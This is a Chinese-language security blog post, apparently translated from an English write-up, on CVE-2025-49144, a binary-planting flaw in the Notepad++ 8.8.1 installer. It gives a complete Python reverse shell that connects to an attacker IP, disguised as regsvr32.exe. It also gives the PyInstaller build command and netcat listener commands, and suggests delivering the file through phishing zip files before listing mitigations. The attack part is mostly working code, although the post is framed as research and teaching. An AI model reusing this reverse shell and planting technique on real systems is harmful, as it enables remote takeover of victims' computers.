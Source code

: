 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MjM5Mzc4MzUzMQ==&mid=2650261370&idx=1&sn=18504a61d83c70267e35639ced27d133

#  【CVE-2025-49144】Notepad++ 漏洞可实现系统完整入侵  
原创 骨哥说事  骨哥说事   2025-07-01 06:00  
  
<table><tbody><tr><td data-colwidth="557" width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;"><span leaf="">声明：</span></span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;"><span leaf="">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></span></h1></td></tr></tbody></table>#   
  
#   
  
****# 防走失：https://gugesay.com/archives/4498  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlbXyV4tJfwXpicwdZ2gTB6XtwoqRvbaCy3UgU1Upgn094oibelRBGyMs5GgicFKNkW1f62QPCwGwKxA/640?wx_fmt=png&from=appmsg "")  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4iaicSaXNTprbjnZBZdNyYYElVNlPTJWv5XuaeKKLQF8eCFNgice92NLBag/640?wx_fmt=png&from=appmsg "")  
  
# 背景介绍  
  
2025 年 5 月 5 日发布的 Notepad++ v8.8.1 中发现一处潜在的严重漏洞，该漏洞影响到全球数百万用户的系统访问权限。  
  
该漏洞的编号为 CVE-2025-49144 ，攻击者可以通过操纵名为 regsvr32.exe 的可执行文件来获取系统权限。  
  
本文将讨论该漏洞背后的原因、如何利用以及可能造成的后果。  
# 漏洞成因  
  
该漏洞源于 Notepad++ 安装文件中不受控制的 EXE 搜索路径，当用户执行安装文件时，它会搜索可执行文件依赖项，其中之一就是 regsvr32.exe 。它会在当前目录（安装文件所在目录）中搜索该文件，且未进行任何验证。  
  
因此攻击者可以放置名称为 regsvr32.exe 的恶意可执行文件，安装程序将被诱骗执行攻击者放置的恶意文件，从而导致二进制程序植入。  
  
攻击者便可以执行任意代码，从而可能导致 Getshell 或整个系统受到损害。  
# 攻击是如何进行的？  
  
步骤1： 创建恶意文件并将其保存为 regsvr32.py  

```
import socket
import os
import threading
import subprocess as sp

ip_addr = '<ATTACKER_IP_ADDRESS>'
port = 4444

# Set up the subprocess to run cmd.exe
p = sp.Popen(['cmd.exe'], stdin=sp.PIPE, stdout=sp.PIPE, stderr=sp.STDOUT)

# Create a socket and connect to the specified address and port
s = socket.socket()
s.connect((ip_addr, port))

# Define the function to read from the subprocess stdout and send to the socket
def read_and_send():
    whileTrue:
        o = os.read(p.stdout.fileno(), 1024)
        s.send(o)

# Define the function to receive from the socket and write to the subprocess stdin
def recv_and_write():
    whileTrue:
        i = s.recv(1024)
        os.write(p.stdin.fileno(), i)

# Start the threads to run the above functions
threading.Thread(target=read_and_send, daemon=True).start()
threading.Thread(target=recv_and_write).start()

```

  
步骤 2：执行下面的命令将其转换为 exe 文件，命令执行后，将看到在 dist 文件夹中创建了 regsvr32.exe 。  
  

```
python -m PyInstaller --onefile regsvr32.py
```

  
  
注： 确保 regsvr32.exe 和 notepad++ 的安装文件位于同一目录中。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4ia7zCiaribPMfd2ichmldMticaPSE8wqaRicvoqE6vueYQd44iarmY6xKYr8qw/640?wx_fmt=png&from=appmsg "")  
  
  
步骤 3：在攻击者的机器上使用 netcat 设置监听器，监听器必须与恶意文件中的端口一致。  
  
Linux：  
  

```
nc -nvlp <PORT_NUMBER>
```

  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4iaqYnkRE7sTbRZqg149BXaf851mgxpUsu4g2wMFicGwpEly3ia3gfAI9RQ/640?wx_fmt=png&from=appmsg "")  
  
  
Windows：  
  

```
ncat -nvlp <PORT_NUMBER>
```

  
  
步骤 4： 执行 Notepad++安装文件 
```
npp.8.8.1.Installer.x64.exe
```

  
  
正常安装的最后一步，安装程序将提取所有文件，你将看到其中一个文件 regsvr32.exe 被执行，并且在攻击者的机器中收到反向连接。  
  
通过Process Monitor可以清楚地看到安装程序正在下载目录中搜索 regsvr32.exe 。  
  
注： 虽然是 CreateFile ，但它也可以打开现有的文件。  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4iaUASlDPy810Zib8WfkC0PRyOHo7GhaUVyu2AQuGMP4KS14trXJHL69lw/640?wx_fmt=png&from=appmsg "")  
  
  
可以在下图中看到成功执行恶意文件后，建立了反向 Shell，它为受害者机器提供了命令行访问权限：  
  
![file](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jkibzpPKxTkXtBibJPthYEU4iaF8rRE0gaUfFg5ibyuXfUvd7hsU9RtAVp1iatLQ7p1ibtaM2s1yBD33VVA/640?wx_fmt=png&from=appmsg "")  
  
# 安全隐患  
  
该漏洞可以通过与钓鱼攻击相结合而被利用，攻击者诱骗受害者下载包含安装程序和恶意文件的zip文件。  
  
在安装此应用程序时，安装程序在搜索路径时允许攻击者执行恶意文件，从而导致任意代码执行和可能的后门程序，使攻击者完全控制受害者机器。  
# 建议措施  
1. 使用绝对路径： 要查找可执行依赖项，不应使用当前工作目录，而应使用绝对路径，如 C:\Windows\System32  
  
1. 验证完整性： 安装程序在执行文件之前应验证文件的数字签名，以确认文件未被篡改  
  
1. 避免不受信任的路径： 避免从不受信任的目录（尤其是用户可写的目录）加载任何依赖项  
  
原文：https://infosecwriteups.com/cve-2025-49144-notepad-vulnerability-allows-full-system-compromise-17944dc3fc2b  
  
- END -  
  
**加入星球，随时交流：**  
  
**********（会员统一定价）：128元/年（0.35元/天）******  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jnMJtHJnShkTnh3vR3fmaqicPicANic6OEsobrpRjx5vG6mMTib1icuPmuG74h2bxC4eP6nMMzbs5QaSlw/640?wx_fmt=jpeg&from=appmsg "")  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**  
  
